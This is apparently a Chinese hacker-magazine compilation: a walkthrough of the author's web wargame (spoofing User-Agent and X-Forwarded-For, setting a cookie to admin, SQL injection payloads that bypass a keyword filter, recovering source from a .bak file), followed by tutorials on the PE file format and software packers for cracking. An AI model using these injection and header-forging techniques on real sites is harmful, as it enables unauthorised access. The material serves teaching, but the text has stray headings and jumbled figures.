找到了真正的第三关的地址。进去发现是图14的样子，这个“我爱苹果”是什么意思呢？这个提示也是令人迷惑的，它提示你使用苹果的浏览器浏览。你要是上Apple的零售店找台苹果去访问这个页面，我也不介意。你要google到Safari的user-agent也是可以的。其实，只要是user-agent里面有Mac和Safari字样就可以获得第四关的地址。怎么伪装user-agent呢？我这里使用Burp Suite给大家演示，这个软件……

## 二、感谢

首先感谢黑X能够发布我的游戏，其中，圣智给了我很大帮助。同时，空间赞助者也帮忙美化了界面。总之这个游戏的功劳还是不能只算到我的头上。我还特别感谢我的地理、政治、历史老师，他们在我偷偷地用纸和笔写代码的时候，没有发现我，使游戏的开发进度大大加快。

# 主题乐园

用 Java 编写，各平台通用。首先配置好，如图15。然后把代理服务器设置成：127.0.0.1:8080，保证 Intercept 打开，如图16。刷新浏览器，这时 BurpSuite 会弹出来，如图17。然后把 User-Agent 改掉，点 Forward，如图18。剩下截获的包直接 Forward 过去，这时在浏览器里面就可以得到第四关的地址，如图19。等一下，不要忘了把 Intercept 关上！


## 五、睚眦所思的第四关

第四关映入眼帘的是如图20的景象，游戏要求用特定 IP 访问，可是这个 IP 却是非法 IP。根据提示，用代理服务器怎么还可以知道真实 IP 呢？因为有的代理服务器会在请求的后面附加上一句：`X-Forwarded-For`，后面写上你的 IP。这就暴露了你的真实 IP。只要手工添加这个标头，添上游戏要求的 IP 就可以了。还是用 BurpSuite，把 Intercept 打开，在截获的数据包里附加上一句：`X-Forwarded-For: 276.778.959.762`，然后 Forward 出去，剩下的数据包直接 Forward，如图21。然后在浏览器里面就可以获得第五关地址，如图22。


## 题外话：客户端的数据处理

在进入第五关之前，我还想说一些题外话。首先应该明确，哪些数据是来自客户端的。来自客户端的数据主要有 `$_GET`、`$_POST`、`$_FILE`、`$_COOKIE` 以及 `$_SERVER` 中的部分数据。这些数据无论如何是不能信任的，最近流行的 cookie 注入就是因为信任 `$_COOKIE` 导致的。很早之前，Discuz 的 IP 漏洞的原因与本关的考察点非常相似，就是因为信任了 `$_SERVER['HTTP_X_FORWARDED_FOR']`（咱们添加的 x-forwarded-for 就可以从这里读取到）。所以这一点应该在编程的时候引起重视。

关于处理方法，这里有必要说明：对于 `$_GET`、`$_POST` 这类本应由用户提交的数据（当然这也不是绝对的），如果有非法内容，应该尝试修复，比如转义等。对于那些由客户端浏览器提交的内容，或者是新闻的 id 之类的；如果出现不应该出现的内容，就不要尝试修复了，应该直接报错，因为正常的用户操作是不会出现这样的情况的。

## 六、神秘的第五关

第五关还是比较难的，这是一个加密的地址，算法还是很不容易想到的，但不是不能想到。加密后的地址是：`xzymdg.qjq`。注意到地址一直是 php 的，所以可以判断出 qjq 是指 php 的意思，请看下面的式子：


得到如图26的结果，这里出现的函数就是表单的验证函数（从表单的代码可以看出来）。阅读一下代码，发现代码的含义是：只要文本框内容为 `88eieightght8`，就跳转到“文本框内容 + .php”的地址里去，也就是 `88eieightght8.php`。所以直接在文本框提交 `88eieightght8`，点验证，就可以了。

```javascript
function check(){
  if(document.form.pass.value=="88eieightght8"){
    location=document.form.pass.value+".php";
  }
}
```

图25


图26

所以这就是第六关的地址。这种加密方式在解密的时候要多多尝试，一次就猜对可能性不太大。这关在编写的时候由于出现了失误，导致第六关的地址出现了错误，得知这一情况后，我立刻进行了改正，在此向大家道歉。

## 七、简单的第六关

第六关的简单程度可以和第一关相媲美，只需要把 cookie 的 user 字段改成 admin 就可以了，还是用 BurpSuite，就不详细说了，直接上图。如图23、24。

```text
user=simple; cnzz_eid=...;
time=...; rtime=33;
```

图23

```http
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
Cookie: user=admin; ...
```

图24

## 八、脚本！脚本！

这关是这套游戏中唯一涉及到脚本的。为了使脚本有足够的平台通用性，我编写脚本时也是查了很多资料，可谓是煞费苦心。因为脚本的解密有很强的通用性，所以我也就没有设置太多考察脚本的关卡。先看源代码，如图25。可以看到，变量 a 保存的一些东西被处理后存到了 b 里面，然后 b 被执行了。显然，b 是解密后的脚本内容。直接在地址栏提交：

```javascript
javascript:alert(b)
```

## 九、跳得好吗？

七又三分之二关，没有任何提示，确实很可怕。仔细看地址栏就会发现现在的地址是 `jumpingfun.php`。刚才说过，本来是应该跳到 `88eieightght8.php`，怎么会来到 `jumpingfun.php` 呢？访问 `88eieightght8.php`，盯住地址栏，你会发现其中的奥妙：`88eieightght8.php` 跳转到 `jumpingfun.php` 了。显而易见，真正的“货”在 `88eieightght8.php` 里边。怎么让它不跳转呢？我们先得分析一下，都有什么方式可以跳转。

## 题外话：跳转的方式

- 1. 标签跳转

用 meta 标签发送 refresh 指令实现跳转。这种跳转方式必须要解析 HTML 才可以实现。这似乎是废话，哪个浏览器不解析 HTML？其实有一些情况 HTML 是不会被解析的，比如用下载工具下载的时候就不会解析 HTML。这种跳转方式对付的方法就是用下载工具下载，之后用记事本去掉标签就可以了。

- 2. 脚本跳转

用 JavaScript 脚本实现跳转。上一关中的代码就用了这种跳转方式。这种跳转方式的优点就是可以按照编程者的设计，在特定事件被触发（比如按下某个按钮）的时候进行跳转。缺点显而易见，在关闭脚本时，就不起作用了。

- 3. 标头跳转

发送 3XX 状态码和 `Location` 标头实现跳转。这三种方式中，只有 HTTP 标头会被解析（注意：HTTP 的响应报文分为标头和正文两部分），正文内容虽然会被忽略，但是也会被发回到客户端。换句话说，就是任何工具只要链接到这个页面就会跳转，只有抓包才能看到正文，否则只能看到（或者下载到）跳转后页面的内容。

另外还需要注意的一点是：为了脚本安全，当验证失败时，在发送跳转标头之后一定要终止脚本运行。这一关的漏洞就在于发送跳转标头后没有终止，造成机密信息（也就是下一关地址）泄露。请看下面的例子：

```php
<?
if(!check()){
    header("Location:error.php");
}
echo "some private information";
?>
```

其中 `check()` 函数返回一个布尔值，表示验证是否成功。当验证不成功时，用户会被跳转到 `error.php`，看不到 `some private information`，但是如果别有用心的人抓一下包，下面的 `some private information` 就会被看到。所以，安全的代码是：

```php
<?
if(!check()){
    header("Location:error.php");
    die();
}
echo "some private information";
?>
```

这个时候，由于发送标头之后 `die()` 了，后面的代码没有执行，所以抓包就抓不到 `some private information` 了。

题外话终于说完了，接着说一下过关方法。直接抓包就可以了，我这里用 BurpSuite 改一下响应标头，看一下第八关的庐山真面目。首先弄好 BurpSuite，然后用浏览器访问 `88eieightght8.php`。这时 BurpSuite 会拦下请求，依次点 `action -> do intercept -> response to this request`，如图27。然后 Forward，注意观察左上角，如果是 `request to ...` 就 Forward；如果是 `response from ...`，就按照图28的样子改掉，再 Forward，然后就可以在浏览器中看到第八关了。把滚动条拖到最下面，会发现有一段英文，如图29。注意最右边还有一个词。

仔细看这段英文，发现大部分字母是小写的，有几个是大写的。不难想到，大写字母就是第九关的地址。考虑到地址一直是小写字母，所以还得把提取出来的大写字母变成小写的。怎么把大写字母提取出来呢？如果一个字一个字地挑出比较麻烦，应该直接用正则表达式。把英文拷贝到一个编辑器里，搜索 `[^A-Z]`（意思是除了大写字母之外的所有字符）替换为空，别忘了选上区分大小写，点替换全部就可以了，如图30。得到第九关的地址 `lcaieuhmrg.php`，如图31。


## 十、注入渴望，渴望注入

第九关的考察点非常明显：注入。首先正常访问页面，依次提交 id 值 0 到 5（可能大家没有想到 0），得到：`next page in next page 40`。意思是什么呢？就是说下一页在 next 表 page 字段 40 号记录上（这个意思不太好想）。然后尝试注入：

```sql
id=1 and 1=1
```

```text
id=1 anandd 1=1 正常
id=1 anandd 1=2 结果为空
...
id=1 anandd 1=2 union select 1,2 错误
...
id=1 anandd 1=2 ununionion select 1,2 结果被过滤
...
id=1 anandd 1=2 ununionion select 1,page from next where id=40 结果：impossibalked
得到了第十关的地址：impossibalked.php
```

> 任务：找到第十关  
> 提示：选择提交 id 值  
> result: impossibalked


图30


图31

## 十一、不可能中的可能

第十关考查了大家的联想能力。如果你看过我在 10 年 12 期上发的文章，你就会知道那个新闻系统的来历了。你只需要经过一点测试就会知道这个系统是第二套系统，就是那个没有漏洞的。只不过多出来一条新闻，就是那个冰雹的新闻，如图33。这里面就提醒各位，别忘了脚本有可能有备份文件。经过尝试就可以找到 `impossibalked.php.bak`，下载下来可以看到如图34的内容。显而易见，这是 base64 加密，但是 base64 解密之后发现是乱码。

由于我在论坛里发布过，这关涉及两种加密方式。很显然，这个乱码不可能是任何加密方式得到的结果，所以原文第一步先进行了 base64 加密。那么第二步进行了什么加密呢？由于 base64 密文经过第二步加密后形式大致不变，所以第二步加密方式应该是对字母进行了变换，极有可能是 rot13 加密。所以先对密文进行 rot13 加密（进行两次 rot13 加密可以得到原文，即：`rot13(rot13(string))=string`），得到如图35的内容。然后进行 base64 解密，解密得到的结果就是最后一关的源代码，在最后边有终点地址，如图36。

> 本报讯：我市昨突下冰雹，砸毁数十家商店。同时我市一家数据中心故障宕机，所幸数据有备份，并无损失。

图33

```text
CQ9jnuNxp...（长串 base64/混淆文本）
```

图34


图35

```text
/end:here_you_are_end_her__________endendendshanker.php
```

图36

## 十二、没有结果的终点

激动人心的时刻到来了，小心翼翼地输入地址，按下回车，进入了终点，如图37。到达终点没什么物质奖励，但是到达终点时，你收获了知识与满足。希望下一次游戏时我们再见。

```text
> 这只是游戏的终点
> 你仍然要继续探索……
>>>>>(an endless end)
```

图37

（文章中涉及的相关源码本期光盘已收录）

# 破解黑客步（八）PE 文件格式

热一热都七月了，rejector 老师也放假回家了。在回家之前还是不忘给大家上一课，这节课就来讲讲 PE 文件格式。要学习破解技术，那么 PE 文件格式是必不可少的内容。

PE 是 Portable Execute 的简称，翻译成中文就是可移植的执行体。它是 win32 可执行文件的标准格式，常见的 EXE、DLL、OCX、SYS、COM 文件都是 PE 文件。

一个可执行文件不光包含了二进制的机器代码，还会自带许多其他信息，如字符串、菜单图标、字体等资源。PE 文件格式规定了所有这些信息在可执行文件中如何组织。在程序被执行时，操作系统会按照 PE 文件格式的约定去相应的地方定位各种类型的资源，并分别装入内存的不同区域。

PE 文件最前面紧随 DOS MZ 文件头的是一个 DOS 可执行文件（Stub），这使得 PE 文件成为一个合法的 MS-DOS 可执行文件。DOS MZ 文件头后面是一个 32 位的 PE 文件标志 `0x50450000`（`IMAGE_NT_SIGNATURE`），即 `PE\0\0`。接下来是 PE 的映像文件头，包含的信息有该程序的运行平台、有多少个节、文件链接的时间、文件的命名格式；后面还紧跟一个可选映像头，包含 PE 文件的逻辑分布信息、程序加载信息、开始地址、保留的堆栈数量、数据段大小等。

可选头还有一个重要的域，称为“数据目录表”的数组，表的每一项都是指向某一节的指针。可选映像头后面紧跟的是节表和节。节通过节表来实现索引，实际上节的内容才是真正执行的数据和程序。每一个节都有相关标志。每一个节会被一个或多个目录表指向，目录表可通过可选头的“数据目录表”入口找到，就像输出函数表或基址重定位表。也存在没有目录表指向的节。

一个操作系统的可执行文件格式在很多方面是这个系统的一面镜子。虽然学习一个可执行文件格式通常不是一个程序员的首要任务，但是你可以从这其中学到大量知识，对学习破解技术会有非常大的帮助。

这里来具体了解一下 PE 文件头。PE 文件使用的是一个平面地址空间，所有代码和数据都合并在一起，组成一个很大的结构。PE 文件的第一个字节起始于 MS-DOS 头部，它包括 DOS MZ Header 和 DOS Stub 两部分。紧随 MS-DOS 头部的是 PE 文件头（PE Header），再后是节表信息，再往后是导入导出表及资源信息。

这里来具体分析一个 PE 文件头，用 16 进制编辑工具打开一个 EXE 可执行文件，就可以看到如下数据：

```text
00000000 4D 5A 90 00 03 00 00 00 ...
00000010 8B 00 00 00 00 00 00 00 ...
...
00000070 6D 6F 64 65 2E 0D 0A 24 ...
...
000000F0 00 00 00 00 00 00 50 45 00 00 ...
```

MS-DOS 头部位于 PE 文件开头，文件开始的两个字节为 `0x4D 0x5A`，正好字符 “MZ” 的 ASCII 码也是 `0x4D 0x5A`，所以通常把这一部分称为 MZ 头。在其后面就是 DOS Stub，它是 PE 文件的一个有效标志，当文件运行在 MS-DOS 模式下时，则会提示 “This program cannot be run in DOS mode”，这个提示信息用户可以自己定义，其位于偏移 `0x4E` 处。MS-DOS 头部拥有一个重要信息，在文件偏移 `0x3C` 处存放着 PE Signature 的偏移，这里是 `0x000000F8`，它指向一个 4 字节的结构 `PE\0\0`。

```text
000000F0 00 00 00 00 00 00 00 50 45 00 00 4C 01 05 00 ...
00000100 CB E9 13 4E 00 00 00 00 00 00 E0 00 02 01 ...
```

以上信息都只存储在文件里，当 PE 加载器把文件加载到内存时，这些信息就都会被舍去。紧跟着 `PE\0\0` 字段的是 COFF 头部分，它的每个字段都拥有具体功能：

- Machine 字段：紧跟在 `PE\0\0` 字段后面，在这里的文件偏移为 `0xFC`，大小为两个字节，标志着 PE 文件可以执行的 CPU 平台，这里是 `0x014C`；
- NumberOfSections 字段：位于 Machine 字段之后，与 `PE\0\0` 字段的偏移为 2，大小为两个字节，标志着紧跟在 COFF 头之后的节表数目，这里是 `0x0005`，表示有 5 个区块；
- TimeDateStamp 字段：位于 NumberOfSections 字段之后，与 `PE\0\0` 字段偏移为 4，大小为 4 个字节，标志着文件的创建时间，这里是 `0x4E13E9CB`；
- PointerToSymbolTable 字段：位于 TimeDateStamp 字段之后，与 `PE\0\0` 字段的偏移为 8，大小为 4 个字节，标志着 COFF 符号表的文件偏移，如果该值为 0 则表示文件……没有 COFF 符号表，这里是 0x00000000，这表示该文件没有 COFF 符号表。

- NumberOfSymbols 字段：位于 PointerToSymbolTable 字段之后，与“PE\0\0”字段的偏移为 12，大小为 4 个字节，标志着 COFF 符号表中的符号数目，这里是 0x00000000，表示没有符号。
- SizeOfOptionalHeader 字段：位于 NumberOfSymbols 字段之后，与“PE\0\0”字段的偏移为 16，大小为 2 个字节，标志着位于 COFF 头之后的数据的大小，这里是 0x00E0。
- Characteristics 字段：位于 SizeOfOptionalHeader 字段之后，与“PE\0\0”字段的偏移为 18，大小为 2 个字节，其表示可执行文件的属性，这里是 0x0102。

```text
00000110  0B 01 09 00 ...
00000120  74 14 00 00 ...
00000130  00 10 00 00 ...
00000140  05 00 00 00 ...
00000150  30 A3 01 00 ...
00000160  00 00 10 00 ...
```

接下来是 Optional Header，即常说的可选文件头：

- Magic 字段：与 Optional Header 的偏移为 0，大小为 2 个字节，其说明了映像的类型，这里是 0x010B。
- MajorLinkerVersion 字段：与 Optional Header 的偏移为 2，大小为 1 个字节，其表示链接程序的主版本号，这里是 0x09。
- MinorLinkerVersion 字段：与 Optional Header 的偏移为 3，大小为 1 个字节，其表示链接程序的副版本号，这里是 0x00。
- SizeOfCode 字段：与 Optional Header 的偏移为 4，大小为 4 个字节，其表示代码段的大小，这里是 0x00000A00。
- SizeOfInitializedData 字段：与 Optional Header 的偏移为 8，大小为 4 个字节，其表示已初始化的数据段的大小，这里是 0x0000D000。
- SizeOfUninitializedData 字段：与 Optional Header 的偏移为 12，大小为 4 个字节，其表示未初始化的数据段的大小，这里是 0x00000000。
- AddressOfEntryPoint 字段：与 Optional Header 的偏移为 16，大小为 4 个字节，其表示程序的入口点地址，这里是 0x00001474。
- BaseOfCode 字段：与 Optional Header 的偏移为 20，大小为 4 个字节，其表示代码段的基址，这里是 0x00001000。
- BaseOfData 字段：与 Optional Header 的偏移为 24，大小为 4 个字节，其表示数据段的基址，这里是 0x00002000。
- ImageBase 字段：与 Optional Header 的偏移为 28，大小为 4 个字节，其表示文件在载入内存的基址，这里是 0x00400000。
- SectionAlignment 字段：与 Optional Header 的偏移为 32，大小为 4 个字节，其表示文件载入内存后的段对齐大小，这里是 0x00001000。
- FileAlignment 字段：与 Optional Header 的偏移为 36，大小为 4 个字节，其表示文件储存在硬盘上的段对齐大小，这里是 0x00000200。
- MajorOperatingSystemVersion 字段：与 Optional Header 的偏移为 40，大小为 2 个字节，其表示需要操作系统最低版本的主版本号，这里是 0x0005。
- MinorOperatingSystemVersion 字段：与 Optional Header 的偏移为 42，大小为 2 个字节，其表示需要操作系统最低版本的副版本号，这里是 0x0000。
- MajorImageVersion 字段：与 Optional Header 的偏移为 44，大小为 2 个字节，其表示可执行文件的主版本号，这里是 0x0000。
- MinorImageVersion 字段：与 Optional Header 的偏移为 46，大小为 2 个字节，其表示可执行文件的副版本号，这里是 0x0000。
- MajorSubsystemVersion 字段：与 Optional Header 的偏移为 48，大小为 2 个字节，其表示需要最低子系统的主版本号，这里是 0x0050。
- MinorSubsystemVersion 字段：与 Optional Header 的偏移为 50，大小为 2 个字节，其表示需要最低子系统的副版本号，这里是 0x0000。
- Win32VersionValue 字段：与 Optional Header 的偏移为 52，大小为 4 个字节，不使用该字段，这里是 0x00000000。
- SizeOfImage 字段：与 Optional Header 的偏移为 56，大小为 4 个字节，其表示可执行文件装入内存后的总大小，这里是 0x00012000。
- SizeOfHeaders 字段：与 Optional Header 的偏移为 60，大小为 4 个字节，其表示所有头部的总大小，这里是 0x00000400。
- CheckSum 字段：与 Optional Header 的偏移为 64，大小为 4 个字节，其表示映像校验和，这里是 0x0001A33D。
- Subsystem 字段：与 Optional Header 的偏移为 68，大小为 2 个字节，其表示可执行文件执行所需的子系统，这里是 0x0002。
- DllCharacteristics 字段：与 Optional Header 的偏移为 70，大小为 2 个字节，当可执行文件为 DLL 文件时其与 DllMain 函数的调用有关，这里是 0x8140。
- SizeOfStackReserve 字段：与 Optional Header 的偏移为 72，大小为 4 个字节，其表示堆栈的总大小，这里是 0x00100000。
- SizeOfStackCommit 字段：与 Optional Header 的偏移为 76，大小为 4 个字节，其表示一开始委派给堆栈的大小，这里是 0x00100000。
- SizeOfHeapReserve 字段：与 Optional Header 的偏移为 80，大小为 4 个字节，其表示进程的堆大小，这里是 0x00100000。
- SizeOfHeapCommit 字段：与 Optional Header 的偏移为 84，大小为 4 个字节，其表示一开始委派给堆的大小，这里是 0x00100000。
- LoaderFlags 字段：与 Optional Header 的偏移为 88，大小为 4 个字节，其表示程序的装载特性，默认为 0x00000000。
- NumberOfRvaAndSizes 字段：与 Optional Header 的偏移为 92，大小为 4 个字节，其表示数据目录表的项数，这里是 0x00000010。

```text
00000170 00 00 00 00 00 00 00 BC 22 00 00 50 00 00 00 ...
00000180 00 40 00 00 C2 C0 00 00 00 00 00 00 00 00 00 00 ...
...
000001E0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
```

接下来是数据目录表，其包括输入表、输出表、资源块，其大小由 NumberOfRvaAndSizes 字段决定。MSDN 里对数据块结构的定义如下：

```c
typedef struct _IMAGE_DATA_DIRECTORY {
    DWORD VirtualAddress;
    DWORD Size;
} IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;
```

每个数据块占 8 个字节；前 4 个字节表示数据块的起始地址，后 4 个字节表示数据块的大小。

```text
000001F0 ... .text ...
00000210 ... .data ...
00000250 ... .rsrc ...
00000290 ... .reloc ...
```

接下来是区块目录信息。一个区块目录的大小为 40 个字节，而可以看出，这里有 5 个区块：

- Name 字段：与区块目录首的偏移为 0，大小为 8 个字节，内容为一个 ASCII 字符串，表示区块名称，这里是 .text。
- VirtualSize 字段：与区块目录的偏移为 8，大小为 4 个字节，表示实际被使用的区块大小，这里是 0x000009BE。
- VirtualAddress 字段：与区块目录的偏移为 12，大小为 4 个字节，表示该区块装载到内存中的地址，这里是 0x00001000。
- SizeOfRawData 字段：与区块目录的偏移为 16，大小为 4 个字节，表示可执行文件储存在磁盘上时该区块所占的大小，这里是 0x00000A00。
- PointerToRawData 字段：与区块目录的偏移为 20，大小为 4 个字节，表示可执行文件储存在磁盘上时该区块所在的偏移，这里是 0x00000400。
- PointerToRelocations 字段：与区块目录的偏移为 24，大小为 4 个字节，表示该区块重定位信息的偏移，这里是 0x00000000。
- PointerToLinenumbers 字段：与区块目录的偏移为 28，大小为 4 个字节，表示行号表在文件中的偏移，这里是 0x00000000。
- NumberOfRelocations 字段：与区块目录的偏移为 32，大小为 2 个字节，表示该区块在重定位表中的重定位数目，这里是 0x0000。
- NumberOfLinenumbers 字段：与区块目录的偏移为 34，大小为 2 个字节，表示该区块在行号表中的行号，这里是 0x0000。
- Characteristics 字段：与区块目录的偏移为 36，大小为 4 个字节，标志着块的属性，这里是 0x00000020。

# 软件壳进步（九）识别壳

首先，要对“壳”有一个大概的认识。壳的读音为“ke”，我身边有很多朋友把它读作“qiao”，这是不对的。可以把程序的“壳”形象地理解为动物、植物的壳；比如“乌龟壳”“花生壳”，“壳”在英文里叫做“shell”，翻译过来就是“外壳”的意思，它和动植物的外壳性质是一样的。动植物的外壳用来保护自己的身体，而软件的“壳”也是用来保护自己的身体。

软件的“壳”是一段代码，程序为了防止反跟踪，防止程序被人跟踪调试，防止算法程序不想被别人静态分析，防止程序代码被非法修改或反编译就需要加壳。现在越来越多的软件为了保护其自身的代码而使用了加壳技术。既然软件用到了加壳技术来保护自身的代码，那我们要分析软件的代码就要解开它的壳保护，这就是脱壳技术。

加壳软件按照其加壳目的和作用，可以分为两类：压缩壳（Packer）和加密壳（Protectors）。压缩壳通过使用压缩算法，将程序的代码进行压缩，其主要目的是减小程序体积。以往的压缩工具，通常是将电脑中的资料或文档进行压缩，用来缩小储存空间，但是压缩后就不能再运行了；如果想运行必须解压。另外当你的系统中无压缩软件时，你的压缩包即无法解开。而压缩壳的独特之处就在这里，压缩壳是专门对 Win32 可执行程序进行压缩的工具，压缩后程序能正常运行，丝毫不会受到任何影响。而且即使你已经将加壳软件从系统中删除，曾经加过壳的文件仍可正常使用。这里介绍几款常见的压缩壳：

- 1. ASPack  
  ASPack 是款 Win32 可执行文件压缩软件，可压缩 Windows 32 位可执行文件（.exe）以及库文件（.dll、.ocx），文件压缩比率高达 40%～70%。
- 2. UPX  
  UPX 是一个以命令行方式操作的可执行文件经典免费压缩程序，压缩算法自己实现，速度极快。
- 3. PECompact  
  PECompact 同样也是一款能压缩可执行文件的工具（支持 EXE、DLL、SCR、OCX 等文件）。相比同类软件，PECompact 提供了多种压缩项目的选择，用户可以根据需要确定哪些内部资源需要压缩处理。同时，该软件还提供了解密的插件接口功能。
- 4. NSPack  
  NSPack 是老牌压缩软件，用户称它为北斗，NSPack 是一个为 Windows 下的 EXE/DLL/OCX/SCR 等 32 位、64 位可运行文件减小体积的压缩器（同时支持 C#.net 的压缩）。

加密壳用上了各种反跟踪技术来保护程序不被调试、脱壳等，其加壳后的体积大小不是其考虑的主要因素，它的主要作用是保护程序。这里介绍几款常见的压缩壳：

- 1. ASProtect  
  ASProtect 是一款非常强大的 Windows 32 位保护工具，这 4、5 年来，其一直在更新进步。其开发者是俄国人 Alexey Solodovnikov。它拥有压缩、加密、反跟踪代码、反反汇编代码、CRC 校验和花指令等保护措施。它使用 Blowfish、Twofish、TEA 等强劲的加密算法，还用 RSA1024 作为注册码生成器。它还通过 API 钩子（API hooks，包括 Import hooks（GPA hook）和 Export hooks）与加壳的程序进行通信。甚至用到了多态变形引擎（Polymorphic Engine）、反 API Hook 代码（Anti-Apihook Code）和 BPE32 的多态变形引擎（BPE32 的 Polymorphic Engine）。并且 ASProtect 为软件开发人员提供 SDK，实现加密程序内外结合。

### 2. Armadillo加密壳

Armadillo 是一套强大的软件保护系统，可以为您的程序添加装甲般的外壳。通过艺术性的加密、数据压缩和其它安全特性保护您的程序不被盗版和破解。Armadillo 可以让您在 5 分钟内为您的程序设计并添加一套完全的软件保护和注册系统，并且不需要您修改任何程序代码！Armadillo 支持所有语言编写的 32 位 Windows EXE 文件。

### 3. EXECryptor加密壳

EXECryptor 也是一款猛壳，可能由于兼容性等原因，采用其保护的商业软件不是太多。这款壳的特点是 Anti-Debug 做得比较隐蔽，另外就是采用了虚拟机保护一些关键代码。

虚拟机技术是近些年比较流行的软件加密技术，也算是一种壳。虚拟机，Virtual Machine，简称 VM，通常所说的虚拟机是指通过软件模拟的具有完整硬件系统功能的、运行在一个完全隔离环境中的完整计算机系统，比如常用的 VMWare。这里说的虚拟机和 VMWare 不同，倒有点像 Java 虚拟机，它通过虚拟保护引擎模拟出一系列的指令来解释执行，可以将虚拟机想象成为带有不同于 Intel 8086 处理器系统指令的虚拟处理器，从而起到对程序代码的保护作用。这样一来，破解者就需要开发一整套的解析引擎来分析和反编译字节码，以现有的解密理论，破解者想要还原出源代码几乎是不可能的。

虚拟机保护是近几年新兴的技术，它以执行的效率换取程序的安全，通过虚拟机保护处理过的代码，往往一条汇编指令会膨胀为原来的几十倍，甚至上百倍。逆向工作者在分析通过虚拟机保护的程序时，也许看了上百行的代码以后却发现这只是一句 a+b 指令，这是很郁闷的事情。

# 下面介绍几款常见的虚拟机保护软件：

- 1. VMProtect  
  VMProtect 是新一代的软件保护系统，是一款纯虚拟机保护软件，它将保护后的代码放到虚拟机中运行，这将使分析反编译后的代码和破解变得极为困难。通过使用 MAP 文件或内建的反编译引擎，您可以快速选择需要保护的代码。它是当前最强的虚拟机保护软件，经 VMProtect 处理过的代码，至今还没有人公开宣称能还原。但也有缺点，就是会影响程序速度，因此在一些对速度要求很高的场合就不适合用了。

### 2. Themida加密壳

Themida 是 Oreans 的一款商业壳，它不是纯虚拟机保护软件，而是将虚拟机保护技术和加密保护技术结合起来，保护强度远不如 VMProtect。Themida 1.1 以前版本带驱动，稳定性有些影响。Themida 最大特点就是其虚拟机保护技术，因此在程序中填入 SDK，将关键的代码让 Themida 用虚拟机保护起来。Themida 最大的缺点就是生成的软件有些大。WinLicense 这款壳和 Themida 是同一公司的一个系列产品，WinLicense 主要多了一个协议，可以设定使用时间、运行次数等功能，两者核心保护是一样的。

软件在加了“壳”以后，壳的代码一般都是先于程序的代码运行，拿到程序的控制权，然后完成它们保护软件的任务。本节具体讲述壳的加载过程。

一个程序被加了壳以后，则程序自身的代码被加密（或压缩）处理。被加过壳的程序的代码一般会被分成两部分：原程序被加密过的代码和外壳程序的代码。当被加过壳的程序被执行时，外壳代码首先取得程序的执行权，还原程序中被加密处理过的代码，完成解密工作后再将程序控制权交给解密后的代码。


图1

一般的壳都会修改原程序文件的输入表，然后自己模仿 Windows 系统的工作来填充输入表中相关的数据。找一个实例，给它加个 ASPack 的壳，图1。用 LoadPE 比较加壳前和加壳后的程序的输入表，图2、图3，可以发现加壳之前的文件和加壳之后的文件的输入表不一样；加壳之后的文件的输入表一般所引入的 DLL 和 API 函数很少。从图2里可以看出加壳后的程序的输入表里只有 kernel32.dll 里的 GetProcAddress、GetModuleHandleA、LoadLibraryA 这三个函数。壳代码实际上还需要其他的 API 函数来完成它的工作，为了隐藏这些 API，它一般只在壳的代码中用显式链接方式动态加载这些 API 函数，而这三个函数是显式链接方式动态加载函数所必须的。


图2


图3

| 名称 | VOffset | VSize | ROffset | RSize | 标志 |
|---|---:|---:|---:|---:|---|
| .text | 00001000 | 00001000 | 00000400 | 00000600 | E0000060 |
| .rdata | ... | ... | ... | ... | ... |
| .data | ... | ... | ... | ... | ... |
| .rsrc | ... | ... | ... | ... | ... |
| .reloc | ... | ... | ... | ... | ... |
| .aspack | ... | ... | ... | ... | ... |
| .adata | ... | ... | ... | ... | ... |

图4

外壳代码的主要作用是解密原程序的各个区块的被加密过的数据。壳程序出于要保护原程序代码和数据的目的，一般都会加密原程序文件的各个区块。在程序执行时外壳将会对这些区块数据解密，以让程序能正常运行。壳程序一般是按区块加密的，那么在解密时也按区块解密，并且把解密的区块数据按照区块的定义放在合适的内存位置。图4和图5是程序加壳后和加壳前的区块信息。

| 名称 | VOffset | VSize | ROffset | RSize | 标志 |
|---|---:|---:|---:|---:|---|
| .text | 00001000 | 000006BE | 00000400 | 00000800 | 60000020 |
| .rdata | 00002000 | 00000622 | 00000C00 | 00000400 | 40000040 |
| .data | 00003000 | 0000058A | 00001000 | 00000200 | C0000040 |
| .rsrc | 00004000 | 00000C5C | 00001800 | 00000E00 | 40000040 |
| .reloc | 00011000 | 00000208 | 00003A00 | 00000400 | 42000040 |

图5

文件执行时将被映像到内存里指定地址中，这个初始内存地址称为基地址（ImageBase）。如果程序执行时不能被映射到程序给定的内存地址中，则需要进行重定位操作。对于 EXE 格式的程序文件来说，Windows 系统会尽量满足程序给定的内存地址。在这种情况下就不需要进行重定位操作。

由于不需要对 EXE 文件进行重定位，所以加壳软件把原程序文件中用于保存重定位信息的区块干脆也删除了，这样使得加壳后的文件更加小巧。但是对于 DLL 格式的动态链接库文件来说，Windows 系统没有办法保证每一次 DLL 运行时都提供相同的基地址。这样，重定位操作就很重要了，此时加过壳的程序中也需要提供进行重定位数据和代码，否则原程序中的代码是无法正常运行起来的。

做完所有工作，外壳就会把所有程序的控制权交给被还原的代码，外壳的工作就结束了。为了方便读者理解，现在使用 OD 来分析这个加过壳的程序。

将加过壳的程序载入到 OD 中，可以看到入口点的代码如下：

```asm
01382000    nop
01382001    pushad
01382002    call    0138200A
```

第一句 nop 指令，第二句 pushad，都按 F8 步过，第三句要注意了，这里的 CALL 是一个陷阱，这可并不是调用指令，而是一句变相的跳转，按 F7 跟进这个 CALL，代码如下：

```asm
0121200A    pop     ebp
0121200B    inc     ebp
0121200C    push    ebp
0121200D    retn
```

这里弹出返回地址，然后加 1，再压回堆栈，这样返回地址就变成了原返回地址的下一字节，看看原来栈里的返回地址：

002FFC88  01382007  返回到 加壳.01382007 来自 加壳.0138200A

返回地址在经过处理以后就成了这样：

002FFC88  01382008  加壳.01382008

现在返回地址已经变成了原返回地址的下一字节，如果刚才按 F8 略过这个 CALL 那程序肯定跑飞了。按 F8 执行这几条指令，然后返回：

```asm
003A2008    jmp     short 003A200E
003A200A    pop     ebp
003A200B    inc     ebp
003A200C    push    ebp
003A200D    retn
003A200E    call    003A2014
01382013    jmp     short 01382072
```

# 主题乐园

返回后是一句 jmp 跳转指令，跳到 003A200E 这个 CALL 指令处，按 F7 跟进这个 CALL，一直按 F8 向下跟踪：

```asm
01382014  pop ebp
01382015  mov ebx,13
0138201A  add ebx,ebp
0138201C  sub ebx,2000
01382022  cmp dword ptr [ebp+488],0
